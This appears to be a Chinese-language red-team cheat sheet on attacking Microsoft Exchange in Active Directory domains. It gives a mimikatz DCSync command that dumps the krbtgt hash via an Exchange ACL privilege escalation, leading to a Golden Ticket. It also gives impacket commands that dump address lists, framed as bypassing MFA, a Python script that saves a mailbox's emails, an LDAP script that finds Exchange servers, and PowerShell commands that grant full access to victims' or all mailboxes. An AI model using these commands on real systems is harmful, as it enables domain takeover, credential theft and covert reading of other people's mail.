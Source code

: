 
## 【有限制的利用】使用Exchange服务器中特定的ACL实现域提权
### 利用的Exchange Server版本条件
适用于在以下升级前的Exchange Server，以及更老的Exchange Server版本
- Exchange Server 2019 – Cumulative Update 1
- Exchange Server 2016 – Cumulative Update 12
- Exchange Server 2013 – Cumulative Update 22
就权限具体来说为以下：
1. 域的ACL中的两条Exchange Windows Permissions对其Write DACL权限的ACE的属性没有Inherit only的Flag
2. AdminSDholder对象，仍然有向“Exchange Trusted Subsystem”组授予对“组”继承对象类型的“Write DACL”权限的“允许”ACE。
### 利用流程
Exchange Trusted Subsystem, Exchange Windows Permission, Organization Management这三个组内用户有WriteDACL权限，如果获得组内用户身份凭据，那么就能够为指定域用户添加ACE，使其获得利用DCSync导出域内所有用户hash的权限，接下来可以使用域用户krbtgt的hash制作Golden Ticket，登录域控制器，获得对整个域的控制权限。
以mimikatz为例，指令如下
```powershell
# 使用mimikatz的DCSync功能导出用户krbtgt的hash
mimikatz.exe privilege::debug "lsadump::dcsync /domain:test.com /user:krbtgt /csv" exit
```
### 参考链接
- https://3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-%E4%BD%BF%E7%94%A8Exchange%E6%9C%8D%E5%8A%A1%E5%99%A8%E4%B8%AD%E7%89%B9%E5%AE%9A%E7%9A%84ACL%E5%AE%9E%E7%8E%B0%E5%9F%9F%E6%8F%90%E6%9D%83
- https://support.microsoft.com/en-gb/topic/reducing-permissions-required-to-run-exchange-server-when-you-use-the-shared-permissions-model-e1972d47-d714-fd76-1fd5-7cdcb85408ed
## 信息搜集
### 一、【普通用户】Exchange绕过MFA查看所有地址列表
条件：已经获得Exchange普通用户的登录凭证
```bash
# 列出所有地址列表
impacket-exchanger username:'password'@exchangeserver nspi list-tables
# 查看所有邮箱用户
impacket-exchanger username:'password'@exchangeserver nspi dump-tables -name "All Users"
```
### 二、【普通用户】Exchange绕过MFA查看自身用户邮件
* 条件：已经获得Exchange普通用户的登录凭证<br>

```python
# Modified from 
# https://stackoverflow.com/questions/58765068/how-to-save-email-messge-item-generated-using-exchangelib-library-in-python
# POST data to /EWS/Exchange.asmx
# exchangelib: Python client for Microsoft Exchange Web Services (EWS)
from exchangelib import Account, Configuration, Credentials, DELEGATE

def connect(server, email, username, password):
    """
    Get Exchange account cconnection with server
    """
    creds = Credentials(username=username, password=password)
    config = Configuration(server=server, credentials=creds)
    return Account(primary_smtp_address=email, autodiscover=False, config = config, access_type=DELEGATE)

def get_recent_emails(account, count):
    """
    Retrieve most emails for a given folder
    """
    # Get the folder object
    folder = account.inbox
    # Get emails
    return folder.all().order_by('-datetime_received')[:count]
email = ''
username = ''
password = ''
server = ''
account = connect(server, email, username, password)

emails = get_recent_emails(account, 10)
msgs = []
s = "email_"
i=0
for msg in emails:
    with open(s+str(i)+".html","w") as a:
        a.write(str(msg.body))
    i+=1
```

### 三、【普通用户】通过域控查找所有Exchange服务器
```bash
#!/bin/bash
# 查找所有Exchange服务器
username=''
password=''
domainController=''

myarray=(`echo $domainController | tr '.' ' '`)
j=0
len=${#myarray[@]}
len2=$((len-2))
domain=""
for i in `seq 1 $len2`
do
domain+='DC='
domain+=${myarray[$i]}
domain+=','
done
domain+='DC='
domain+=${myarray[-1]}
DN="CN=Exchange Servers,OU=Microsoft Exchange Security Groups,"$domain
DNlist=$(ldapsearch -x -H "ldap://$domainController" -D "$username" -w "$password" -b "$DN" member |grep ^member: |awk -F ": " '{print $2}'|grep -v "CN=Exchange Install Domain Servers")

for i in $DNlist
do
ldapsearch -x -H "ldap://$domainController" -D "$username" -w "$password" -b "$i" dNSHostName |grep ^dNSHostName:|awk -F ": " '{print $2}'
done
```

### 四、【管理员】Exchange查看其他用户邮件
条件：已经获得Exchange管理员的登录凭证
#### 通过网页端授权
1. 访问 https://exchange_domain/ecp, 进入管理中心
2. 选择recipients标签，之后再选择mailboxes标签
3. 选择需要查看的用户收件箱，之后选择编辑Edit，会弹出一个新页面
4. 在新页面选择最下面的mailbox delegation，然后划到最下面，添加管理员以给予Full Access权限
5. 访问 https://exchange_domain/owa， 进入邮件网页端
6. 在左侧栏选择到自己的名词的标签（Inbox的上一级标签），右击，选择Add Shared Folder，输入想要查看的用户的名称，点击确定。
7. 之后左侧栏便会显示其他用户的邮箱
#### 通过Exchange Management Shell授权
- 授权单个收件箱: 
```powershell
Add-MailboxPermission -Identity victim@test.local -User user_in_control@test.local -AccessRights fullaccess -InheritanceType all
```
- 授权所有收件箱：
```powershell
Get-Mailbox -ResultSize unlimited -Filter {(RecipientTypeDetails -eq 'UserMailbox') -and (Alias -ne 'Admin')} | Add-MailboxPermission -User user_in_control@test.local -AccessRights fullaccess -InheritanceType all
```
授权完成后，重复“通过网页端授权”的5-7步即可